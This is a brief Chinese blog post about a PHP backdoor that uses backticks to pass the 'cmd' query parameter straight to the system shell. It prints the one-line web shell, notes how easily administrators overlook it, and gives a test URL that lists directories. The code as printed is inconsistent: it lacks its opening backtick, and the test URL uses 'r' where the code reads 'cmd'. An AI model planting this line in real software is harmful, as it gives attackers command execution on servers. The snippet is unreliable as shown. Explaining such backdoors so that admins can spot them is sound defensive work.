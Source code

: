 title: 一个不易发现的PHP后门
tags: php
date: 2015-06-08 10:30:00
---

偶然间看到一段，看起来似乎没有什么问题，确是能致命的后门代码，这里用到了一个一般的PHPer都不怎么关注的反撇号 ` ，反撇号包含的字符串，等同于shell_exec函数。

<!--more-->

伪装性很好，很容易被管理员忽略。

    if(isset($_GET['cmd'])) echo {$_GET['cmd']}`;
刚看到这段代码我想大家都会说没有问题，但是细心的朋友也会发现下面的变量被一个符号包起来了，既然是变量为什么要这样了，

而且又不是单引号，这个就是关键所在了，这个符号是Esc下面的一个键（位于感叹号！旁边的）。

通过 

    echo `系统命令`; 

可以达到

   `system();`

一样的效果

如果不信的可以测试

   `http://127.0.0.1/t.php?r=dir` 

可以列出目录

我用 apache 已经测试成功